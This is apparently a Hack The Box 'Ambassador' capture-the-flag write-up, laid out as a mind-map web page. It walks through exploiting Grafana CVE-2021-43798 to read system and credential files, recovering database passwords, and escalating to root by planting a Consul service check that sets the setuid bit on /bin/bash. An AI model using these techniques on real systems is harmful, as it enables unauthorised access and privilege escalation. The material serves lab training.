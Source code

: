 ```yaml
---
title: "Hack The Box - Ambassador [Medium]"
publishedAt: 2023-08-20
description: "HTB Writeup"
isPublish: true
---
```


<html>
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<meta http-equiv="X-UA-Compatible" content="ie=edge">
<title>Markmap</title>
<style>
* {
  margin: 0;
  padding: 0;
}
#mindmap {
  display: block;
  width: 100vw;
  height: 100vh;
}
</style>
<link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/@highlightjs/cdn-assets@11.8.0/styles/default.min.css"><link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/markmap-toolbar@0.15.3/dist/style.css">
</head>
<body>
<svg id="mindmap"></svg>
<script src="https://cdn.jsdelivr.net/npm/d3@7.8.5/dist/d3.min.js"></script><script src="https://cdn.jsdelivr.net/npm/markmap-view@0.15.3/dist/browser/index.js"></script><script src="https://cdn.jsdelivr.net/npm/markmap-toolbar@0.15.3/dist/index.js"></script><script>(r => {
                setTimeout(r);
              })(() => {
  const {
    markmap,
    mm
  } = window;
  const {
    el
  } = markmap.Toolbar.create(mm);
  el.setAttribute('style', 'position:absolute;bottom:20px;right:20px');
  document.body.append(el);
})</script><script>((getMarkmap, getOptions, root, jsonOptions) => {
          const markmap = getMarkmap();
          window.mm = markmap.Markmap.create('svg#mindmap', (getOptions || markmap.deriveOptions)(jsonOptions), root);
        })(() => window.markmap,null,{"type":"heading","depth":0,"payload":{"lines":[0,1]},"content":"Ambassador","children":[{"type":"heading","depth":1,"payload":{"lines":[2,3]},"content":"PORTS","children":[{"type":"heading","depth":2,"payload":{"lines":[4,5]},"content":"TCP","children":[{"type":"list_item","depth":3,"payload":{"lines":[6,7]},"content":"Discovered open port 3306/tcp on 10.10.11.183","children":[{"type":"list_item","depth":4,"payload":{"lines":[7,8]},"content":"MySQL 8.0.30-0ubuntu0.20.04.2","children":[]}]},{"type":"list_item","depth":3,"payload":{"lines":[8,9]},"content":"Discovered open port 80/tcp on 10.10.11.183","children":[{"type":"list_item","depth":4,"payload":{"lines":[9,10]},"content":"Hugo 0.94.2","children":[]},{"type":"list_item","depth":4,"payload":{"lines":[10,11]},"content":"http-title: Ambassador Development Server","children":[]}]},{"type":"list_item","depth":3,"payload":{"lines":[11,12]},"content":"Discovered open port 22/tcp on 10.10.11.183","children":[{"type":"list_item","depth":4,"payload":{"lines":[12,13]},"content":"OpenSSH 8.2p1 Ubuntu 4ubuntu0.5","children":[]}]},{"type":"list_item","depth":3,"payload":{"lines":[13,14]},"content":"Discovered open port 3000/tcp on 10.10.11.183","children":[{"type":"list_item","depth":4,"payload":{"lines":[14,15]},"content":"HTTP/1.0 302 Found","children":[]}]}]},{"type":"heading","depth":2,"payload":{"lines":[16,17]},"content":"UDP","children":[{"type":"list_item","depth":3,"payload":{"lines":[18,19]},"content":"None","children":[]}]}]},{"type":"heading","depth":1,"payload":{"lines":[20,21]},"content":"HTTP 10.10.11.183:80","children":[{"type":"heading","depth":2,"payload":{"lines":[24,25]},"content":"Content","children":[{"type":"list_item","depth":3,"payload":{"lines":[28,29]},"content":"user: <code>developer</code>","children":[]}]}]},{"type":"heading","depth":1,"payload":{"lines":[31,32]},"content":"HTTP 10.10.11.183:3000","children":[{"type":"heading","depth":2,"payload":{"lines":[35,36]},"content":"Content","children":[{"type":"heading","depth":3,"payload":{"lines":[37,38]},"content":"Unauthorized","children":[{"type":"list_item","depth":4,"payload":{"lines":[38,39]},"content":"Grafana[8.2.0]","children":[]}]},{"type":"heading","depth":3,"payload":{"lines":[40,41]},"content":"Authorized","children":[{"type":"list_item","depth":4,"payload":{"lines":[42,43]},"content":"Data Source - <code>mysql.yml</code>","children":[]}]}]},{"type":"heading","depth":2,"payload":{"lines":[44,45]},"content":"Login","children":[{"type":"heading","depth":3,"payload":{"lines":[46,47]},"content":"<code>admin:messageInABottle685427</code>","children":[]}]},{"type":"heading","depth":2,"payload":{"lines":[48,49]},"content":"CVEs","children":[{"type":"heading","depth":3,"payload":{"lines":[50,51]},"content":"CVE-2021-43798 *","children":[{"type":"fence","depth":4,"content":"<pre><code><span class=\"hljs-symbol\">developer:</span><span class=\"hljs-symbol\">x:</span><span class=\"hljs-number\">1000</span><span class=\"hljs-symbol\">:</span><span class=\"hljs-number\">1000</span><span class=\"hljs-symbol\">:developer</span><span class=\"hljs-symbol\">:/home/developer</span><span class=\"hljs-symbol\">:/bin/bash</span>\n</code></pre>\n","children":[],"payload":{"lines":[52,55]}},{"type":"bullet_list","depth":4,"payload":{"lines":[56,63]},"content":"","children":[{"type":"list_item","depth":5,"payload":{"lines":[56,57]},"content":"<code>/var/lib/grafana/grafana.db</code>","children":[]},{"type":"list_item","depth":5,"payload":{"lines":[57,58]},"content":"<code>/etc/mysql/mysql.conf.d/mysqld.cnf</code>","children":[]},{"type":"list_item","depth":5,"payload":{"lines":[58,59]},"content":"<code>/etc/grafana/grafana.ini</code>","children":[{"type":"list_item","depth":6,"payload":{"lines":[59,60]},"content":"<code>admin_password = messageInABottle685427</code>","children":[]}]},{"type":"list_item","depth":5,"payload":{"lines":[60,61]},"content":"<code>/etc/grafana/provisioning/datasources/mysql.yml</code>","children":[{"type":"list_item","depth":6,"payload":{"lines":[61,62]},"content":"<code>grafana:dontStandSoCloseToMe63221!</code>","children":[]}]}]}]}]}]},{"type":"heading","depth":1,"payload":{"lines":[63,64]},"content":"DB 3306","children":[{"type":"list_item","depth":2,"payload":{"lines":[67,68]},"content":"<code>use whackywidget; -&gt; select * from users; -&gt; developer:YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg==</code>","children":[{"type":"list_item","depth":3,"payload":{"lines":[68,69]},"content":"<code>anEnglishManInNewYork027468</code>","children":[{"type":"list_item","depth":4,"payload":{"lines":[69,70]},"content":"userFlag","children":[]}]}]}]},{"type":"heading","depth":1,"payload":{"lines":[71,72]},"content":"SSH 22","children":[{"type":"list_item","depth":2,"payload":{"lines":[75,76],"index":1},"content":"1. Files on the System","children":[{"type":"list_item","depth":3,"payload":{"lines":[76,77]},"content":"<code>/home/developer/.gitconfig</code>","children":[]},{"type":"list_item","depth":3,"payload":{"lines":[77,78]},"content":"<code>/opt/my-app/</code>","children":[{"type":"list_item","depth":4,"payload":{"lines":[78,79]},"content":"<code>/opt/my-app/put-config-in-consul.sh</code>","children":[{"type":"list_item","depth":5,"payload":{"lines":[79,80]},"content":"<code>consul kv put --token bb03b43b-1d81-d62b-24b5-39540ee469b5 whackywidget/db/mysql_pw $MYSQL_PASSWORD</code>","children":[]}]}]},{"type":"list_item","depth":3,"payload":{"lines":[80,81]},"content":"<code>/home/developer/.profile</code>","children":[]},{"type":"list_item","depth":3,"payload":{"lines":[81,82]},"content":"<code>/home/developer/.bash_history</code>","children":[]},{"type":"list_item","depth":3,"payload":{"lines":[82,83]},"content":"<code>/root/</code> ?","children":[]},{"type":"list_item","depth":3,"payload":{"lines":[83,84]},"content":"<code>consul</code> *","children":[]},{"type":"list_item","depth":3,"payload":{"lines":[84,85]},"content":"<code>/opt/consul/raft/raft.db</code>","children":[]},{"type":"list_item","depth":3,"payload":{"lines":[85,86]},"content":"<code>/development-machine-documentation/*</code>","children":[{"type":"list_item","depth":4,"payload":{"lines":[86,87]},"content":"<code>/development-machine-documentation/deploy.sh</code>","children":[]}]},{"type":"list_item","depth":3,"payload":{"lines":[87,88]},"content":"<code>/opt/my-app/whackywidget/put-config-in-consul.sh</code>","children":[]}]},{"type":"list_item","depth":2,"payload":{"lines":[88,89],"index":2},"content":"2. Installed Applications","children":[{"type":"list_item","depth":3,"payload":{"lines":[89,90]},"content":"consul","children":[]}]},{"type":"list_item","depth":2,"payload":{"lines":[90,91],"index":3},"content":"3. Network","children":[{"type":"list_item","depth":3,"payload":{"lines":[91,92]},"content":"tcp 127.0.0.1:8300","children":[]},{"type":"list_item","depth":3,"payload":{"lines":[92,93]},"content":"tcp 127.0.0.1:8301","children":[{"type":"list_item","depth":4,"payload":{"lines":[93,94]},"content":"empty reply for HTTP","children":[]}]},{"type":"list_item","depth":3,"payload":{"lines":[94,95]},"content":"tcp 127.0.0.1:8302","children":[{"type":"list_item","depth":4,"payload":{"lines":[95,96]},"content":"empty reply for HTTP","children":[]}]},{"type":"list_item","depth":3,"payload":{"lines":[96,97]},"content":"tcp 127.0.0.1:8500","children":[{"type":"list_item","depth":4,"payload":{"lines":[97,98]},"content":"Consul UI","children":[]},{"type":"list_item","depth":4,"payload":{"lines":[98,99]},"content":"Content: <code>Consul Agent: UI disabled. To enable, set ui_config.enabled=true in the agent configuration and restart</code>","children":[]}]},{"type":"list_item","depth":3,"payload":{"lines":[99,100]},"content":"tcp 127.0.0.1:8600","children":[]},{"type":"list_item","depth":3,"payload":{"lines":[100,101]},"content":"tcp 127.0.0.1:3306","children":[]}]},{"type":"list_item","depth":2,"payload":{"lines":[101,102],"index":4},"content":"4. Running Processes","children":[{"type":"list_item","depth":3,"payload":{"lines":[102,103]},"content":"<code>/usr/bin/consul agent -config-dir=/etc/consul.d/config.d -config-file=/etc/consul.d/consul.hcl</code>","children":[]}]},{"type":"list_item","depth":2,"payload":{"lines":[103,104],"index":5},"content":"5. Scheduled Jobs/Tasks","children":[{"type":"list_item","depth":3,"payload":{"lines":[104,105]},"content":"<code>find /etc/consul.d/config.d/* -mmin +10 -delete</code>","children":[]}]},{"type":"list_item","depth":2,"payload":{"lines":[105,106],"index":6},"content":"6. System","children":[{"type":"list_item","depth":3,"payload":{"lines":[106,107]},"content":"Sudo version 1.8.31","children":[]},{"type":"list_item","depth":3,"payload":{"lines":[107,108]},"content":"PermitRootLogin yes","children":[]}]}]},{"type":"heading","depth":1,"payload":{"lines":[109,110]},"content":"Consul Research","children":[{"type":"list_item","depth":2,"payload":{"lines":[111,112]},"content":"https://www.hashicorp.com/blog/protecting-consul-from-rce-risk-in-specific-configurations","children":[]},{"type":"list_item","depth":2,"payload":{"lines":[112,113]},"content":"https://developer.hashicorp.com/consul/docs/services/usage/checks","children":[]},{"type":"list_item","depth":2,"payload":{"lines":[113,114]},"content":"https://developer.hashicorp.com/consul/commands/exec","children":[]}]},{"type":"heading","depth":1,"payload":{"lines":[115,116]},"content":"Root","children":[{"type":"list_item","depth":2,"payload":{"lines":[116,117]},"content":"<code>export CONSUL_HTTP_TOKEN=bb03b43b-1d81-d62b-24b5-39540ee469b5</code>","children":[]},{"type":"list_item","depth":2,"payload":{"lines":[117,118]},"content":"<code>consul catalog nodes</code>","children":[{"type":"list_item","depth":3,"payload":{"lines":[118,119]},"content":"<code>ambassador 27361fb5-583a-5db0-27bf-ecfed7b4b669 127.0.0.1 dc1 lan=127.0.0.1, lan_ipv4=127.0.0.1, wan=127.0.0.1, wan_ipv4=127.0.0.1 consul-network-segment=</code>","children":[]}]},{"type":"list_item","depth":2,"payload":{"lines":[119,120]},"content":"<code>find / -type d -writable 2&gt;/dev/null</code>","children":[{"type":"list_item","depth":3,"payload":{"lines":[120,121]},"content":"<code>/etc/consul.d/config.d</code>","children":[]}]},{"type":"list_item","depth":2,"payload":{"lines":[121,122]},"content":"<code>touch /etc/consul.d/config.d/syl.hcl</code>","children":[{"type":"list_item","depth":3,"payload":{"lines":[122,137]},"content":"<pre><code class=\"language-hcl\">service {\n    name = &quot;dummy-service&quot;\n    id   = &quot;dummy-service-1&quot;\n    port = 8080\n\n    check = {\n        id = &quot;mem-util&quot;\n        name = &quot;Memory utilization&quot;\n        args = [&quot;chmod&quot;, &quot;u+s&quot;, &quot;/bin/bash&quot;]\n        interval = &quot;10s&quot;\n        timeout = &quot;1s&quot;\n    }\n}\n</code></pre>\n","children":[]}]},{"type":"list_item","depth":2,"payload":{"lines":[137,138]},"content":"<code>consul reload</code>","children":[]},{"type":"list_item","depth":2,"payload":{"lines":[138,139]},"content":"<code>/bin/bash -p</code>","children":[]}]}]},{})</script>
</body>
</html>
